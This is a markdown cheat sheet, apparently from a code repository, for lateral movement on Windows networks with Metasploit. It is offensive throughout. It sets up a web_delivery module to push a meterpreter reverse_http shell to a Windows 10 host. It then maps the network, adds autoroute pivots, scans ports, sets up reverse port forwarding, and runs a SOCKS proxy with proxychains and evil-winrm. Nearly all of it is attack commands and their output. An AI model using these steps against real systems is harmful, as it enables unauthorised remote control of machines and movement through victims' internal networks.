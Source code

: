 # lateral movement

## metasploit

get a shell on windows 10 machine. here is an example:

On Kali:

```bash
msf6 > search web_delivery
msf6 > use 1
msf6 exploit(multi/script/web_delivery) > options
...
msf6 exploit(multi/script/web_delivery) > set lhost eth0
msf6 exploit(multi/script/web_delivery) > set lport 1337
msf6 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_http
msf6 exploit(multi/script/web_delivery) > set target 2
msf6 exploit(multi/script/web_delivery) > exploit -j
```

On Windows:

```powershell
PS > <run whatever they tell you to run>
```

Back to Kali, enter session:

```bash
msf6 exploit(multi/script/web_delivery) > sessions
...
msf6 exploit(multi/script/web_delivery) > sessions -i 1
```

```bash
meterpreter > 
```

## basic network mapping using built-in windows commands

```
meterpreter > ipconfig
meterpreter > arp -a
```

## set up routes on metasploit

On msf5:

```bash
meterpreter > run autoroute -s <network-id/subnet>
```

```bash
meterpreter > run autoroute -p
```

```
IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.16.0       255.255.255.0      Session 1
```

On msf6:

```bash
meterpreter > run post/multi/manage/autoroute cmd=add SUBNET=<subnet> NETMASK=<netmask>
```

```bash
meterpreter > run post/multi/manage/autoroute cmd=add SUBNET=192.168.16.0 NETMASK=/24
```

```bash
meterpreter > run post/multi/manage/autoroute cmd=print
```

```
IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.16.0       255.255.255.0      Session 1
```

## more advanced network mapping

```
use auxiliary/scanner/portscan/tcp
```

## reverse port forwarding

```bash
meterpreter > portfwd add -R -p <local-listening-port> -l <port-to-forward-to> -L <IP-to-forward-to>  
```

```bash
meterpreter > portfwd add -R -p 1234 -l 443 -L 192.168.3.28
```

Run proxy server on Kali:

```bash
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set srvport 9050
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > exploit -j
```

Run proxychains:

```bash
proxychains evil-winrm ...
```

